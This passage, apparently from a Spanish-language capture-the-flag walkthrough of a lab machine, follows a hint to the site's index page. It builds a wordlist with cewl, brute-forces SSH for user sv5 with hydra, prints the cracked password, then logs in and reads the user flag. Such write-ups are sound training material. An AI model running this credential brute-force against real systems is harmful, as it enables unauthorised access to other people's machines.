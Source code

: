 ```
So if you cant use the key then what else can you use????????? :)
```

Vemos que realmente no es un `id_rsa`...

Y en el `id_rsa.pub` pone basicamente una pista de que probemos a buscar mejor en el `/index.html` por lo que haremos lo siguiente...

```shell
cewl http://<IP>/index.html > pass.txt
```

Y con el usuario que encontramos en uno de los directorios de la web llamado `sv5`...

```shell
hydra -l sv5 -P pass.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 14:07:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 239 login tries (l:1/p:239), ~4 tries per task
[DATA] attacking ssh://192.168.5.206:22/
[22][ssh] host: 192.168.5.206   login: sv5   password: whoistheplug
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-29 14:07:15
```

Encontramos las credenciales, por lo que nos conectaremos al `ssh`...

```
User = sv5
Password = whoistheplug
```

```shell
ssh sv5@<IP>
```

Metemos la contraseña y estariamos dentro...

Leeremos la flag...

> user.txt (flag1)

```
Hey buddy :)

Well done on that initial foothold ;) ;)

Key Takeaways:
* Do not always believe what the tool tells you, be the "Doubting Thomas" sometimes and look for
  yourself, e.g 1 disallowed entry in robots.txt wasn't really true was it? hehehehe
* It's not always about TCP all the time..... UDP is there for a reason and is just as important a
  protocol as is TCP......
* Lastly, there is always an alternative to everything i.e the ssh part.


***** Congrats Pwner ******
Now on to the privesc now ;)

```